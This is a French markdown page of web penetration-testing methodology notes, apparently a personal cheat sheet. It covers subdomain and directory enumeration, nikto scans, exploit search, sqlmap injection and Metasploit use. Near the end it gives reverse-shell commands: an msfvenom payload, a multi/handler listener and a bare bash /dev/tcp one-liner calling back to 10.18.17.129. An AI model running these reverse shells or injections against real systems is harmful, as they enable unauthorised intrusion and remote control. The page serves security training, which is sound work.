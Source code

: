 ```yaml
---
title:  "Pentest Web"
tag: "Méthodologie"
---
```


Ces notes sont destinées à répertorier une méthodologie pour du pentest web.

# Collecte d'informations

## Identification de sous domaines
```console
Misoko@home[/home]$ sublist3r -d google.com
Misoko@home[/home]$ gobuster dns -d google.com -w ~/wordlists/subdomains.txt -i
```
On peut utiliser également https://crt.sh/ avec "%.domain.com"

## Recherche / Enumération de dossiers et fichiers
Une fois le périmètre défini, une utilisation d'outils de bruteforce de répertoire peut permettre d'identifier les fichiers et dossiers du domaine de périmètre. Une fois les résultats obtenus, l'identification de la technologie utilisée peut être faite.

### [Gobuster](https://github.com/OJ/gobuster)
```console
Misoko@home[/home]$ gobuster dir -u http://@IP --wordlist /usr/share/dirb/wordlists/common.txt
```

On peut accéder ici à de nombreuses listes avec [SecLists](https://github.com/danielmiessler/SecLists).

## Identifier les Technologies utilisées

### [wappalyzer](https://www.wappalyzer.com/)
Cet outil permet de se faire une première idée des technologies liés à un nom de domaine, directement depuis l'interface web.

### [similartech](https://www.similartech.com/)
Un autre outil dans le même état d'esprit.

## whatweb
```console
Misoko@home[/home]$ whatweb domain.com -v -a 3
```


# Scanners Automatique
### [nikto](https://github.com/sullo/nikto)
Nikto est un scanner de serveur web (configuration, version de serveurs obsolète, options HTTP du serveur, identification du serveur web, vulnérabilités, etc). Un [guide](https://www.freecodecamp.org/news/an-introduction-to-web-server-scanning-with-nikto/) pratique pour débuter.

```console
Misoko@home[/home]$ nikto -h scanme.nmap.org -o scan.txt
Misoko@home[/home]$ nikto -h domains.txt
Misoko@home[/home]$ nikto -h https://nmap.org -ssl
Misoko@home[/home]$ nikto -h @IP
```


nikto, whatweb, wapiti, w3af, zaproxy, nuclei
## cmsScan

# HTTP Headers 
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/01-Information_Gathering/

# Recherche d'exploits

```console
Misoko@home[/home]$ searchsploit apache 2.4.41 
```

Recherche google
```console
frameworkName exploit/cve/metasploit
framework cve /metasploit
```

# Injection SQL
### SQLmap
Après avoir trouvé un lien où il y a une injection du type : http://vulnWebsite.com/article.php?id=2
```console
Misoko@home[/home]$ sqlmap -u http://vulnWebsite.com/article.php?id=2 --dbs
Misoko@home[/home]$ sqlmap -u http://vulnWebsite.com/article.php?id=2 -D databaseName
```

# Utilisation metasploit

```console
$ msfconsole
$ use exploit/multi/handler
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.5
msf6 exploit(multi/handler) > set lport 1234
msf6 exploit(multi/handler) > exploit
```

## Creation de shell
```console
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe > Desktop/stageless_reverse_tcp_x86_4444_2.exe
```

# Echange de fichier :
```console
Misoko@home[/home]$ python3 -m http.server
```
et de l'autre côté :
```console
attackedHost@home[/home]$ wget http://@IP/file
```

<!--
À checker

https://marduc812.com/2019/08/18/web-application-testing-methodology/

https://marduc812.com/checklist/web.html
  -->




  bash -i >& /dev/tcp/10.18.17.129/4444 0>&1
